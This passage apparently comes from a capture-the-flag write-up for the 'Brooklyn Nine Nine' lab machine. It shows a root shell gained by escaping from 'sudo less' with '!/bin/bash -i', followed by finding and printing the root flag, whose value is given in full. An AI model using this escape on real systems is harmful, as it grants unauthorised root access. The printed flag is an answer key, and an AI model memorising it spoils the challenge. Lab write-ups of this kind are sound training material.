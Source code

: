 #### Execute `less` Command
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
	!/bin/bash -i

root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
```
![[Pasted image 20250414203322.png]]
![[Pasted image 20250414203527.png]]

#### Find `root.txt` flag
```
root@brookly_nine_nine:~# find / -type f -name root.txt 2>/dev/null
/root/root.txt

root@brookly_nine_nine:~# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
![[Pasted image 20250414203217.png]]]]